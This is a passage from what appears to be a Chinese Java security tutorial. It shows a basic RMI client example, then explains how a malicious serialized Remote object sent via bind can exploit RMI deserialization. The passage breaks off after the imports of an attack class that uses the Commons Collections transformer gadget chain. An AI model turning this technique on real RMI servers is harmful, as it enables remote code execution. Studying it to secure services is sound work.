 **RMI客户端示例代码：**

```java
package com.anbai.sec.rmi;

import java.rmi.Naming;

import static com.anbai.sec.rmi.RMIServerTest.RMI_NAME;

public class RMIClientTest {

   public static void main(String[] args) {
      try {
         // 查找远程RMI服务
         RMITestInterface rt = (RMITestInterface) Naming.lookup(RMI_NAME);

         // 调用远程接口RMITestInterface类的test方法
         String result = rt.test();

         // 输出RMI方法调用结果
         System.out.println(result);
      } catch (Exception e) {
         e.printStackTrace();
      }
   }
}
```

程序运行结果：

```
Hello RMI~
```

## RMI反序列化漏洞

`RMI`通信中所有的对象都是通过Java序列化传输的，在学习Java序列化机制的时候我们讲到只要有Java对象反序列化操作就有可能有漏洞。

既然`RMI`使用了反序列化机制来传输`Remote`对象，那么可以通过构建一个恶意的`Remote`对象，这个对象经过序列化后传输到服务器端，服务器端在反序列化时候就会触发反序列化漏洞。

首先我们依旧使用上述`com.anbai.sec.rmi.RMIServerTest`的代码，创建一个`RMI`服务，然后我们来构建一个恶意的`Remote`对象并通过`bind`请求发送给服务端。

**RMI客户端反序列化攻击示例代码：**

```java
package com.anbai.sec.rmi;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import javax.net.ssl.SSLContext;
import javax.net.ssl.SSLSocketFactory;
import javax.net.ssl.TrustManager;
import javax.net.ssl.X509TrustManager;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.net.Socket;
import java.rmi.ConnectIOException;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.RMIClientSocketFactory;
```